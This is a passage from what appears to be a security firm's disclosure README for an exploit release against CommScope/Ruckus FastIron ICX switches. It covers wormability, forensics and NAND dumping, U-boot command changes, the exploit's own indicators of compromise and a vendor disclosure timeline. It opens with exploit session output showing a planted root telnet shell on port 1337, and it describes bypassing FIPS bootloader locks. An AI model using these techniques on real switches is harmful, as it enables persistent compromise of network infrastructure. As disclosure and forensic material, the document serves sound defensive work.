    root      5445  0.0  0.0   2004   144 ?        Ss   21:57   0:00 /usr/sbin/telnetd -b 0::0 -p 1337 -l /bin/sh
    root      5482  0.0  0.0      0     0 ?        I    21:58   0:00 [kworker/u4:0]
    root      6198  0.0  0.0      0     0 ?        I    22:06   0:00 [kworker/u4:2]

TaoFTP [1]> shell dmesg | head
[+] MAGIC ACK for op 17 with 813 bytes.
[*] Received exec ACK pkt: seq 0, final_flag 1, payload 809 bytes.
[+] Command executed in remote (('192.168.1.57', 35374)):
    [    0.000000] Booting Linux on physical CPU 0x0
    [    0.000000] Linux version 4.14.76-19.0.0Image (swrel@l42-ub-ecbld-04) (gcc version 5.2.1 20151103 (Marvell GCC development 20151117-a53c013d)) #1 SMP PREEMPT Sun Dec 29 21:56:46 PST 2024
    [    0.000000] Boot CPU: AArch64 Processor [412fd050]
    [    0.000000] Machine model: Marvell AC5x board
    [    0.000000] Reserved memory: created DMA memory pool at 0x0000000208000000, size 64 MiB
    [    0.000000] OF: reserved mem: initialized node buffer@0x200000000, compatible id shared-dma-pool
    [    0.000000] crashkernel reserved: 0x00000002cfe00000 - 0x00000002dfe00000 (256 MB)
    [    0.000000] cma: Reserved 256 MiB at 0x00000002bfc00000
    [    0.000000] NUMA: No NUMA configuration found
    [    0.000000] NUMA: Faking a node at [mem 0x0000000000000000-0x00000002dfffffff]
```

### "Wormable"

FastIron switches are capable of intra-switch updates and management, and the underlying Linux OS contains facilities (TFTP, FTP, etc) that make it possible to *weaponize* the vulnerabilities to infect both neighboring and remote devices so as long as the prerequisites are met (*cli* access, including telnet and ssh modes, or abused stacking communication between different logical units -switches-).

## Affected product series and versions

The vulnerabilities described **affect all versions of FastIron ever released (including those released in January 2025 with *silent* fixes, up to latest `10.x`), in every ICX product series, since the early to mid 2000s**. However, the source code in this release is limited to ICX7150 series, and contains intentional limitations for targeting FastIron `8.x` firmware versions.

## Forensics

Unfortunately, customers affected with FIPS/CC-enabled systems **will need to leverage the exploit to be able to dump firmware images, as U-boot is restricted**.

### Tooling for firmware analysis and supply chain attack incident response

Subreption offered CommScope access to "BROCLARK" on 12/05/2024, to be distributed to its customers under flexible non-commercial terms. A software licensing agreement was provided that offered *pro bono* source code access (to confirm that no malicious functionality was present) and distribution at no cost to either CommScope or its customers, but no affirmative response was received by Subreption, and no source code or binaries were ever distributed to CommScope in absence of an executed agreement.


This tool was independently developed in a clean-room fashion from reverse engineering of the FastIron firmware images. We are carefully considering binary-only releases of the tool for forensic use, although reliance on firmware images alone for incident response is insufficient.

However, **BROCLARK provides assurances against *supply chain* attacks leveraging malicious modifications in the images**.

Some advice is provided in this section to mitigate the situation, worsened by some of the modifications introduced by CommScope in their January 2025 updates. We also hope for CommScope to **not** impede independent verification of their firmware images, as this will severely limit the ability of customers to defend or respond to supply chain incidents.

### EEPROM reset (for unlocking U-boot in FIPS/CC-enabled devices)

FLAPPYSWITCH contains a capability to reset the FIPS-enable bit in EEPROM. However, in case a FIPS/CC-enabled switch must be recovered (by means of accessing U-boot without restrictions), the source code in `loader/devices.c` can be used as reference to understand how to manually disable it with an EEPROM programmer. Still, recent bootloader firmware (`bootrom`), added an additional check on U-boot environment variables, which requires code execution inside FastIron or access to a NAND programmer to modify the U-boot environment partition.

For devices with older bootloaders, resetting the EEPROM bit will allow recovery without depending on CommScope or Ruckus TAC.

Remember to obtain a full dump of the EEPROM prior to any modifications!

### Dumping NAND

FLAPPYSWITCH intentionally leaves specific artifacts in persistent flash storage (ex. `/fast_iron` partition), but it does not modify the main firmware image as presented by FastIron during normal operations of the switch. In order to gather forensic artifacts of implants or other persistent alterations, the entire NAND must be dumped. This is feasible *only* from within the booted FastIron OS, U-boot (prior to boot) with the unrestricted command set or physical access to the switch board (desoldering the IC and using a NAND programmer). Assuming no malicious modifications exist in the bootloader (U-boot), the easiest method is to simply break into an unrestricted U-boot shell and dump the NAND of the DUT to a TFTP server:

#### Post-January update U-boot (`mnz10127.bin`)

Ruckus / CommScope has severely crippled U-boot in non-FIPS mode after their January 27th releases. These include  attempts to further obscure access to commands that are readily useful for analysts to perform device forensics.

The `mnz10127.bin` bootloader integrated with the `8.0.95r` and other updates attempting to patch FLAPPYSWITCH vulnerabilities, modified the command set as follows:

```
                  fips_mode_commands                              XREF[1]:     f000bc98(*)
f00a0658 f0 09 20        char *[13]
      73 f0 08
      ab d3 f0
  f00a0658 f0 09 20 73     char *    s_ping_f0092073         [0]           = "ping"
  f00a065c f0 08 ab d3     char *    s_reset_f008abce+5      [1]           = "reset"
  f00a0660 f0 08 c8 e7     char *    s_u_imi_f008c8e7        [2]           = "u_imi"
  f00a0664 f0 09 5f 38     char *    s_setenv_f0095f36+2     [3]           = "setenv"
  f00a0668 f0 09 49 ec     char *    s_factory_f00949ec      [4]           = "factory"
  f00a066c f0 09 53 a4     char *    s_boot_f00953a4         [5]           = "boot"
  f00a0670 f0 08 ca 20     char *    s_bootm_f008ca20        [6]           = "bootm"
  f00a0674 f0 08 c8 4a     char *    s_boot_primary_f008c84a [7]           = "boot_primary"
  f00a0678 f0 08 c7 ed     char *    s_boot_secondary_f008c  [8]           = "boot_secondary"
  f00a067c f0 09 b5 79     char *    s_version_f009b56c+13   [9]           = "version"
  f00a0680 f0 09 49 f4     char *    s_run_f00949f4          [10]          = "run"
  f00a0684 f0 09 11 bc     char *    s_nand_f00911b9+3       [11]          = "nand"
  f00a0688 f0 09 23 a1     char *    s_sf_f00923a1           [12]          = "sf"

```

Previously, in `mnz10126.bin` and earlier this command set was defined as follows:

```
                      fips_mode_command_set                           XREF[1]:     f000bc98(*)
f00a0708 f0 09 01        char *[18]
          77 f0 08
          ce 7f f0
  f00a0708 f0 09 01 77     char *    s_?_f0090177            [0]           = "?"
  f00a070c f0 08 ce 7f     char *    s_help_f008ce7f         [1]           = "help"
  f00a0710 f0 09 21 20     char *    s_ping_f0092120         [2]           = "ping"
  f00a0714 f0 08 ab 96     char *    s_reset_f008ab91+5      [3]           = "reset"
  f00a0718 f0 08 c9 94     char *    s_u_imi_f008c994        [4]           = "u_imi"
  f00a071c f0 09 4c 9f     char *    s_saveenv_f0094c9f      [5]           = "saveenv"
  f00a0720 f0 09 5f e5     char *    s_setenv_f0095fe3+2     [6]           = "setenv"
  f00a0724 f0 09 4b 58     char *    s_printenv_f0094b58     [7]           = "printenv"
  f00a0728 f0 09 4a 99     char *    s_factory_f0094a99      [8]           = "factory"
  f00a072c f0 09 54 51     char *    s_boot_f0095451         [9]           = "boot"
  f00a0730 f0 08 ca cd     char *    s_bootm_f008cacd        [10]          = "bootm"
  f00a0734 f0 08 c8 f7     char *    s_boot_primary_f008c8f7 [11]          = "boot_primary"
  f00a0738 f0 08 c8 9a     char *    s_boot_secondary_f008c  [12]          = "boot_secondary"
  f00a073c f0 09 b6 26     char *    s_version_f009b619+13   [13]          = "version"
  f00a0740 f0 09 4a a1     char *    s_run_f0094aa1          [14]          = "run"
  f00a0744 f0 09 35 3e     char *    s_usb_f009353e          [15]          = "usb"
  f00a0748 f0 09 12 69     char *    s_nand_f0091266+3       [16]          = "nand"
  f00a074c f0 09 24 4e     char *    s_sf_f009244e           [17]          = "sf"
  ```

The commands removed by the January 27th updates are as follows:

 - **help** (a *notoriously dangerous* command)
 - **printenv** (an even more *notoriously dangerous* command: there should be *no valid reason* for a systems administrator to inspect bootloader configuration in FIPS mode)
 - **saveenv**
 - **setenv**
 - **usb**

These changes make it effectively impossible for system administrators to ascertain the exact configuration of the bootloader. Do note that this only impacts legitimate users, as a threat actor will have positively no problem (as demonstrated by FLAPPYSWITCH) altering U-boot's environment.

Third-parties requiring advanced forensic capabilities can contact us for circumvention mechanisms under NDA, subject to vetting.

### IOCs

Unfortunately, detection of exploitation in transit is limited to `telnet` based cli sessions, and assuming that the so-called threat actor has not removed log entries related to the abuse of CVE-2024-50607 and co. SSH based sessions cannot be readily inspected with IDS systems, and in general, such systems will be grossly inadequate for detecting TAs targeting network equipment itself, as they can be simply rendered "deaf" through control of the mirroring of packets (for example).

**There are no practical observable IOCs in a compromised switch without access to the underlying Linux OS, and the FastIron cli does not provide any facilities for analysis**. `copy` can produce a copy of the firmware images via a TOCTOU-vulnerable process, but this can be readily targeted to conceal malicious components, and the FLAPPYSWITCH loader **does not need to infect the actual image as present on flash**. It achieves reboot-proof persistence through the mechanisms mentioned earlier in this document.

However, these IOCs are **intentional and specific to this release**:

 - `/fast_iron/sys/bcm.bkup`: a persistent copy of the loader.
 - `/fast_iron/FLAPPYSWITCH.HELLO`: text file with procname, pid and arguments (command line) for injected processes.
 - ELF DSO in unused partition (ex. `mtd8`) at offset 32772.

The presence of an ELF structure in flash:

```
dev:    size   erasesize  name
mtd0: 04000000 00200000 "brcd_primary_image"
(...)
mtd8: 00500000 00010000 "unused"                    <<<<
```

```
# nanddump -c -s 32772 -l 32 /dev/mtd8
ECC failed: 0
ECC corrected: 0
Number of bad blocks: 0
Number of bbt blocks: 0
Block size 65536, page size 1, OOB size 0
Dumping data starting at 0x00008004 and ending at 0x00008024...
0x00008004: 7f 00 03 20 7f ff ff ff 00 00 00 00 00 02 0d f1  |... ............|
0x00008005: 45 00 03 20 7f ff ff ff 00 00 00 00 00 02 0d f1  |E.. ............|
0x00008006: 4c 00 03 20 7f ff ff ff 00 00 00 00 00 02 0d f1  |L.. ............|
0x00008007: 46 00 03 20 7f ff ff ff 00 00 00 00 00 02 0d f1  |F.. ............|
0x00008008: 01 00 03 20 7f ff ff ff 00 00 00 00 00 02 0d f1  |... ............|
```

```
~ # cat /fast_iron/FLAPPYSWITCH.HELLO
sh (2887): sh sh -c /usr/local/bin/hmon_poed_fmntr  (0xbb36ed63)
sh (2890): sh sh -c echo 3 > /proc/sys/vm/drop_caches  (0x18bc017d)
sh (3492): sh sh -c /.pkg/logmgrPkg/bin/hmon_logmgrfmntr  (0x3bbf79ef)
sh (3865): sh sh -c /.pkg/logmgrPkg/bin/hmon_logmgrfmntr  (0x3bbf79ef)
hmon_logmgrfmntr (1730): /.pkg/logmgrPkg/bin/hmon_logmgrfmntr /.pkg/logmgrPkg/bin/hmon_logmgrfmntr  (0xf8d9d1c3)
hmon_logmgrfmntr (1736): /.pkg/logmgrPkg/bin/hmon_logmgrfmntr /.pkg/logmgrPkg/bin/hmon_logmgrfmntr  (0xf8d9d1c3)
(...)
```

Using the `show files` command from a sufficiently elevated *CLI* shell can reveal some of the IOCs:

```
icx7150#show files
Type       Size   Name
----------------------
F        33554432 primary
F        33554432 secondary
F             256 primary.sig
(...)
F          146507 FLAPPYSWITCH.HELLO
```

Beware that any *rootkit* (user-land and otherwise) can conceal files from the `FastIron` process, but FLAPPYSWITCH makes no effort at being stealth, and does not patch or otherwise alter any existent functions inside `FastIron` (including FIPS image verification routines).

## GPL compliance

We must both **commend and praise Arris Networks and Ruckus for their compliance with GNU GPL license terms**.
Not only Ruckus (CommScope) and Arris have complied with GNU GPL licensing terms by providing and releasing source code for those components derived from open source software under the GPL, they stand out as a rare example in the industry. Vendors like Ubiquiti or Mikrotik are or have been widely known to be violating the GPL, despite being arguably far less significant players in their space.

This policy should be both sustained in the future and followed as an example by other vendors. Concealment of source code **does not** actually provide any security benefits, as threat actors do not operate or normally work *for free*, yet security researchers often will avoid a sufficiently high entry bar, resulting in a situation favorable to TAs who readily employ reverse engineering in their operations.

## Mirroring

We provide wholesale authorization and kindly ask you to mirror and otherwise publicly archive this entire repository, provided that the licenses, notes and accompanying documents are kept intact, and that this is done for archival and educational purposes.

## Disclaimer

This release is provided strictly for educational, awareness, and forensic purposes only. Subreption and its associated researchers accept no responsibility or liability for any use or misuse of the information, tools, or techniques contained herein. Users of this release assume all risks and responsibilities associated with its application.

This work explicitly qualifies as "good faith" security research under applicable law, including exemptions provided by the Digital Millennium Copyright Act (DMCA). It does not circumvent protections for commercial advantage or private financial gain, nor is it provided to facilitate infringement or unauthorized access.

All trademarks, product names, logos, and brand names mentioned in this document—including CommScope®, Ruckus®, and Brocade®—are the property of their respective owners. Subreption and its researchers have no affiliation with or endorsement from CommScope, Ruckus, or Brocade.

Scans, screenshots, excerpts, and other references to publicly accessible materials are used herein under fair use principles to facilitate educational discourse, analysis, and commentary related to network security and product vulnerabilities.

### Digital Millennium Copyright Act (DMCA) rulemakings

 - 80 FR 65944 (October 28, 2015) https://www.govinfo.gov/content/pkg/FR-2015-10-28/pdf/2015-27212.pdf
 - 83 FR 54010 (October 26, 2018) https://www.federalregister.gov/documents/2018/10/26/2018-23241/exemption-to-prohibition-on-circumvention-of-copyright-protection-systems-for-access-control
 - 86 FR 59644 (October 28, 2021), codified 37 C.F.R. § 201.40(b)(14) (labeled “Class 14” in the final rule).

See: https://www.law.cornell.edu/cfr/text/37/201.40

 > (12) **Computer programs that enable routers and dedicated network devices to execute lawfully obtained software applications, where circumvention is accomplished for the sole purpose of enabling interoperability of such applications with computer programs on the router or dedicated network device**, and is not accomplished for the purpose of gaining unauthorized access to other copyrighted works. For the purposes of this paragraph (b)(12), “dedicated network device” includes switches, hubs, bridges, gateways, modems, repeaters, and access points, and excludes devices that are not lawfully owned.

> (18)
> (i) Computer programs, where the circumvention is undertaken on a lawfully acquired device or machine on which the computer program operates, or is undertaken on a computer, computer system, or computer network on which the computer program operates with the authorization of the owner or operator of such computer, computer system, or computer network, solely for the purpose of good-faith security research.
>
> (ii) For purposes of paragraph (b)(18)(i) of this section, “good-faith security research” means accessing a computer program solely for purposes of good-faith testing, investigation, and/or correction of a security flaw or vulnerability, where such activity is carried out in an environment designed to avoid any harm to individuals or the public, and where **the information derived from the activity is used primarily to *promote the security or safety of the class of devices or machines on which the computer program operates, or those who use such devices or machines*, and is not used or maintained in a manner that facilitates copyright infringement**.

## License

This project is licensed under the **GNU General Public License version 3 (GPL v3)**.

### GNU GPL v3

All terms, conditions, obligations, and limitations specified in the [GNU General Public License version 3](https://www.gnu.org/licenses/gpl-3.0.en.html) apply fully and unconditionally to all uses of this software.

---

### Disclosure timeline

- **10/22/2024**
  Subreption attempts to reach a security POC via Ruckus TAC.

- **10/24/2024**
  Subreption finally reaches out to CommScope security POCs.

- **10/31/2024**
  Subreption provides CommScope/Ruckus with a summary of research findings; CVE reservations begin.

- **11/12/2024**
  Subreption requests a status update, informing CommScope/Ruckus that its policy is aligned with Google Project Zero’s 90/120-day disclosure approach.

- **11/31/2024**
  CommScope/Ruckus security POC reports internal discussion in progress.

- **12/03/2024 (morning)**
  Subreption requests confirmation regarding the party responsible for FIPS evaluation.

- **12/03/2024 (afternoon)**
  CommScope/Ruckus security POC denies having knowledge of or involvement with the FIPS evaluation firm.

- **12/04/2024**
  Subreption and CommScope/Ruckus hold a conference call discussing the overall situation.

- **12/05/2024**
  Subreption offers to provide its forensics tool (“BROCLARK”) to CommScope/Ruckus customers for device and image analysis.

- **12/05/2024**
  CommScope/Ruckus security POC fulfills a GPL request by providing ICX 8200 series U-Boot source code.

- **12/06/2024**
  Subreption confirms it has started reviewing the provided bootloader source code and found no inadvertently included private artifacts belonging to CommScope.

- **12/11/2024**
  CommScope/Ruckus security POC requests official CVE references for high-priority issues (copy command, checksum_vrfy) and indicates a mid-February 2025 fix window. The POC also mentions plans to rotate or review the existing trust anchor.

- **12/12/2024**
  Subreption confirms the reserved CVE identifiers (CVE-2024-50607, CVE-2024-50604) and provides additional technical details.

- **12/13/2024 (morning)**
  CommScope/Ruckus security POC again questions the nature of the reported vulnerabilities.

- **12/13/2024 (afternoon)**
  Subreption reaffirms that all reported issues qualify as genuine vulnerabilities rather than “security weaknesses.”

- **12/16/2024**
  CommScope/Ruckus security POC contests the vulnerabilities, calling them “security weaknesses” and claiming the EEPROM “FIPS bit” cannot be modified from the OS.

- **12/19/2024**
  Subreption provides further proof for CVE-2024-50606 (trust anchor bypass) and clarifies certain devices do have TPM hardware. The CommScope/Ruckus POC still disputes the severity.

- **12/24/2024**
  CommScope/Ruckus security POC reiterates that missing secure boot (CVE-2024-50606) is a “security weakness,” not a vulnerability. Subreption disagrees, holding that CVE-2024-50606 addresses a legitimate flaw.

- **(No communication between 12/24/2024 and 01/27/2025.)**

- **01/27/2025 (morning)**
  CommScope/Ruckus quietly releases updated FastIron firmware for multiple versions (potentially fixing some reported issues) but does not notify Subreption or offer a chance to validate.

- **01/27/2025 (afternoon)**
  CommScope/Ruckus security POC again disputes certain vulnerabilities and suggests using a newly created “SIRT” contact form, which imposes confidentiality obligations and control of the disclosure process by CommScope. Subreption rejects this form, citing its own public disclosure policy.

- **01/27/2025 (evening)**
  Subreption analyzes the January firmware changes independently, expecting subsequent CommScope communication about the silent fixes, which does not arrive.

- **01/29/2025**
  CommScope/Ruckus security POC confirms patches for some FastIron versions are almost complete, targeting late February for final release. The EEPROM/trust anchor items are acknowledged as more complex. No mention is made to the quietly released firmware updates, concealing their existence. At this point, all circumstantial and material evidence suggests the vendor is not communicating in a transparent or honest fashion.

- **02/01/2025**
  Subreption details **how the “physical access only” vector can be remotely abused for persistent compromise, referencing real-world examples like Salt Typhoon**.

- **02/04/2025**
  CommScope/Ruckus security POC proposes coordinating disclosure with patch releases, offering to credit Subreption LLC, and requests withholding details on EEPROM/Trust Anchor while broader mitigations are developed. Much of the discourse revolves around vendor's desire to not be associated with Salt Typhoon.

- **02/11/2025**
  Subreption reiterates that it is still aligned with the 120-day disclosure window and is currently testing the 9.x firmware builds, mentioning additional (non-security) issues discovered on an ICX 7150, without revealing that the existence of the silent fixes is known, as to avoid further damaging communications with the vendor.

- **02/18/2025**
  CommScope/Ruckus security POC confirms alignment with Subreption’s proposed schedule:
  - Delay broader disclosure until Feb 20.
  - From Feb 20 to Mar 21, discussions only in “closed door” venues.
 Again, vendor conceals the existence of quietly released firmware updates since December 2024 and January 15-27th 2025, requesting further extensions for disclosure from Subreption, despite this fact.

- **02/27/2025**
  Subreption finally informs CommScope that some reported issues were apparently patched in January firmware releases without acknowledgment (silent fixes). Subreption inquires why no security bulletin was published, no credit given and no offer to triage was made prior to release.

- **02/28/2025**
  CommScope/Ruckus security POC emails stating that CommScope has released a security advisory “at the end of February” urging customers to patch and that Subreption LLC is credited. Subreption disputes ever seeing said advisory, restates that certain vulnerabilities remain unfixed or insufficiently patched, and requests additional CommScope management/legal contacts.
  Subreption also notifies CommScope that it may involve CISA, citing concerns about partial communication and silent fixes.

- **02/28/2025**
  Subreption informs CommScope security POC it must proceed with publication due to insufficient fixes and lack of direct confirmation from higher-level CommScope representatives, and that the evidence at hand indicates a less than honest management of the situation since December 2024.

- **03/10/2025**
  - Subreption contacts CommScope security POC, explicitly challenging the “silent fixes” in the 2025-01-15 firmware release, after careful review of past communications and published updates and notes in Ruckus' website.
  - **Subreption refutes any justification based on “industry gatherings” or restricted press events, citing no pre-release review or validation opportunity prior to the January 15th and January 27th releases by CommScope/Ruckus, and no mention to any such gatherings or other circumstances justifying the quiet release of the flawed patches at that point in time.**
  - Subreption highlights that the distribution of these fixes on January 15th and January 27th (without coordinating triaging and adequate bulletin or credit) breaches standard coordinated disclosure practices per ISO/IEC 29147 and ISO/IEC 30111.
  - **Subreption affirms that the new firmware still contains insufficient remediation and could be trivially exploited by threat actors**.
  - Subreption insists on involving CISA going forward, noting concerns over governance, transparency, and stakeholder awareness within CommScope.
  - After receiving no response, Subreption contacts CommScope again, with CISA in copy.

- **03/20/2025**
  - Public release. No further communication from CommScope / Ruckus.

## References

- Subreption's Responsible Vulnerability Disclosure Policy: https://subreption.com/research/disclosure-policy/
- [Federal certifications for the RUCKUS product portfolio](https://www.ruckusnetworks.com/solutions/industries/u.s.-federal-government/campus-switches-certifications/)
- [Ruckus FastIron ICX 7150/7250 Series Switch/Router  FIPS 140-3 Non-Proprietary Security Policy](https://csrc.nist.gov/CSRC/media/projects/cryptographic-module-validation-program/documents/security-policies/140sp4843.pdf)
  - Firmware Version: IronWare OS 09.0.10, Document Version: 1.5, Last Update Date: 10-07-2024.
- Joint Interoperability Test Command (JITC), Defense Information Systems Agency. *Memorandum for Distribution: Extension of the Joint Interoperability Certification of the CommScope Ruckus ICX 7000 Series Switches with Software Release FastIron 9.0.10j*. TN 2029601, 1 April 2024. Available online: <https://aplits.disa.mil/apl>. (Accessed March 20, 2025).
  - https://jitc.fhu.disa.mil/tssi/cert_pdfs/2029601_DTR4_CommScope_ICX7000_v9.0.10j_01APR2024.pdf
- Gossamer Security Solutions, Inc. *Common Criteria Assurance Activity Report for CommScope Ruckus FastIron ICX Series Switches*. Document ID: AAR-VID11478, Version 0.3, June 28, 2024, pp. 77.
  - https://www.niap-ccevs.org/862ccadb-4af4-4820-8539-b1f0506c8db0
  - https://www.niap-ccevs.org/products/11478
- *The Cerberus ELF Interface*, mayhem. Phrack Magazine, issue 61.
  - https://phrack.org/issues/61/8#article
---


